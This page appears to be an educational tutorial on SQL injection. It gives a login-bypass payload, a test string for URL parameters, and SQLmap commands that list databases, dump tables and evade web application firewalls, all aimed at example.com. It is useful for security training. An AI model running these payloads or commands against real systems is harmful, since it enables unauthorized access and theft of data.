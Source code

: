 ```yaml
---
title: SQL Injection
sidebar_position: 6
---
```


## Introduction to SQL Injection

SQL Injection (SQLi) is a common web application vulnerability that allows attackers to interfere with the queries an application makes to its database. By injecting malicious SQL statements into a form field or URL parameter, attackers can gain unauthorized access to data, manipulate database entries, or even execute commands on the server.

:::danger
SQL Injection attacks are **illegal** without permission. You should only test systems you have authorization to assess. Unauthorized testing can lead to severe legal consequences.
:::

## Types of SQL Injection

1. **In-band SQLi**:

   - The attacker is able to use the same communication channel to both inject the malicious SQL commands and retrieve results. The most common types are:
     - **Error-based SQLi**: Relies on error messages returned by the database.
     - **Union-based SQLi**: Leverages the `UNION` SQL operator to combine multiple select queries.

2. **Inferential SQLi (Blind SQLi)**:

   - The attacker does not receive direct feedback from the database but infers the database's response by analyzing the behavior of the application. This can be:
     - **Boolean-based SQLi**: Exploits the fact that the SQL query's result will alter the behavior of the application depending on the query's truth value.
     - **Time-based SQLi**: Manipulates the database to delay its responses, allowing the attacker to infer data based on the response time.

3. **Out-of-band SQLi**:
   - The attacker relies on external server responses (such as DNS or HTTP requests) to exfiltrate data.

## Example of SQL Injection

Let's assume we have a vulnerable login form where the backend SQL query looks like this:

```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

An attacker could submit the following input:

- `input_username`: `' OR 1=1 --`
- `input_password`: `anything`

This modifies the SQL query to:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = 'anything';
```

In this case, `1=1` is always true, allowing the attacker to bypass authentication.

## SQL Injection Tutorial

This tutorial will guide you through identifying and exploiting SQL injection vulnerabilities using **SQLmap**, a popular open-source tool.

### Step 1: Identifying a Vulnerable Parameter

Use a basic SQL injection payload to test if a web application's parameter is vulnerable. For example, on a URL like this:

```
http://example.com/page.php?id=1
```

Try modifying the `id` parameter to:

```
http://example.com/page.php?id=1' OR '1'='1
```

### Step 2: Installing SQLmap

:::info
Pre-installed with Kali Linux.
:::

SQLmap can be installed via **Git**:

```
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
```

:::info
On Kali Linux, you don't need to type `python sqlmap.py` in the command line. The command has been aliased to `sqlmap`
:::

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --dbs
```

- `-u` specifies the URL to test.
- `--dbs` enumerates the databases.

### Step 4: Extracting Data

Once SQLmap confirms that the parameter is vulnerable, you can extract specific data from the database. For example, to extract data from a specific table:

```
python sqlmap.py -u "http://example.com/page.php?id=1" -D database_name -T table_name --dump
```

- `-D` specifies the database name.
- `-T` specifies the table name.
- `--dump` extracts all the data from the specified table.

### Step 5: Avoiding Detection

To avoid detection by web application firewalls (WAFs), SQLmap allows you to use various evasion techniques, such as encoding payloads or delaying requests:

```
python sqlmap.py -u "http://example.com/page.php?id=1" --random-agent --delay=2 --hex
```

- `--random-agent`: Randomizes the user agent in each request.
- `--delay`: Adds a delay between each request to avoid triggering rate limits.
- `--hex`: Encodes the payload in hexadecimal to evade detection.

## Conclusion

SQL Injection is a powerful attack vector, and tools like SQLmap make it easier to exploit vulnerable systems. However, it’s crucial to remember that ethical guidelines must always be followed. Testing without permission is illegal and unethical. Always ensure that you are operating within the boundaries of the law and with explicit consent.

## External Resources

- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLmap Documentation](https://sqlmap.org/)
